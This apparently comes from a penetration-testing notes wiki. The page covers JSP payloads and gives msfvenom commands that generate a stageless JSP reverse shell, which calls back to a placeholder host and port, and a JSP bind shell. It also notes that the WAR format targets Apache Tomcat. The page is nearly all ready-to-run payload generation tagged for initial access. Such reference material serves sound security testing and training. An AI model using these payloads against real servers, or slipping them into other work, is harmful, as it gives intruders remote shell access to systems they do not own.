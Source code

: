 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - cross-platform
  - metasploit-framework
---
```

# JSP

> [!INFO]
> You can specify `war` format in `msfvenom` to generate payloads (`payload.war`) against **Apache Tomcat**.

## Reverse Shells

### Generate a payload via `msfvenom`

Stageless reverse shell.

```
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.jsp
```

## Bind Shells

### Generate a payload via `msfvenom`

Stageless bind shell.

```
$ msfvenom -p java/jsp_shell_bind_tcp lport=<PORT> -f raw -o payload.jsp
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Cross Platform/Code Execution/Java]]